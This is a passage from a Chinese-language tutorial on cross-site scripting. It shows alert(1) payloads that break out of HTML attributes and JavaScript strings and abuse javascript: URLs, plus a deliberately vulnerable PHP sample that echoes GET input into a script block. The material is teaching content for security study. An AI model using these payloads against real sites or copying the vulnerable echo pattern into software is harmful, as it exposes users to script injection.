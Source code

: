 ```javascript
"><script>alert(1)</script>
```

**例2**，javascript字符串：

假设返回页面中包含以下脚本：

```javascript
<script>var a='test-text'; var b=123;...</script>
```

用分号终止语句

```javascript
'; alert(1); var foo='
```

**例3**，包含URL的特性

假设返回页面中包含以下脚本：

```javascript
<a href="test-text">Click here</a>html
```

这时，受控制的字符插入到一个``标签的`href`属性中。

这个属性可能包含一个使用`javascript:`协议的URL，利用：

```javascript
javascript:alert(1);
```

**例4**，输出点存在JS内且转义

```php+HTML
<!DOCTYPE html>
<html>
<head>
	<title>XSS转义</title>
</head>
<body>
	XSS
<?php
/**
 * Created by PhpStorm.
 * User: keac wu
 * Date: 2019/12/26 0012
 * Time: 15:53
 */

 $input= $_GET["xss"];
 echo htmlspecialchars("$input");
 ?>
<script type="text/javascript">
	var a='<?php echo htmlspecialchars("$input") ?>';
	console.log(a)
</script>

</body>
</html>
```
